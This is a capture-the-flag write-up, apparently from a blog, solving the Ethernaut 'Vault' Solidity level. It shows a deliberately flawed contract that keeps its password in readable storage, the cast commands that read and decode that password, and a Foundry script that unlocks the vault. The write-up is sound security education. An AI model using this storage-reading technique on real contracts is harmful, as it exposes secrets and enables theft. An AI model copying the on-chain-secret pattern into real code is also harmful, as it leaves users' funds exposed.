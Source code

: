 ```yaml
---
title: 'Vault - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level8.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-18
lastmod: 2025-09-18
---
```


## Challenge Overview

This level involves a vault protected by a password stored as a private variable. The goal is to unlock the vault by discovering the password and calling the `unlock()` function. While the password is marked as `private`, all data stored on the blockchain is publicly accessible, allowing us to read it directly from storage.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

---

## Exploit Explanation

The critical misunderstanding here is about the meaning of `private` in Solidity. While `private` prevents other contracts from directly accessing the variable, it **does not** make the data private on the blockchain. All contract storage is publicly readable on-chain.

The storage layout is as follows:
- Slot 0: `locked` (boolean, 1 byte)
- Slot 1: `password` (bytes32, 32 bytes)

We can directly read the password from storage slot 1 using blockchain exploration tools.

### Steps to extract the password:

1. **Read the storage slot**: Use `cast storage` to read the value at storage slot 1
2. **Decode the bytes32**: Convert the hex value to a human-readable string

```bash
# Read the password from storage slot 1
cast storage <YOUR_INSTANCE> 1 --rpc-url $SEPOLIA_URL

# Decode the bytes32 value to a string
cast parse-bytes32-string 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

This reveals the password: `A very strong secret password :)`

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Vault.sol";

contract VaultSolution is Script {
    Vault public vaultInstance = Vault(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Check initial lock status
        console.log("Vault locked initially:", vaultInstance.locked());
        
        // Unlock the vault with the extracted password
        bytes32 password = "A very strong secret password :)";
        vaultInstance.unlock(password);
        
        // Verify the vault is now unlocked
        console.log("Vault locked after unlock:", vaultInstance.locked());
        
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/VaultSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```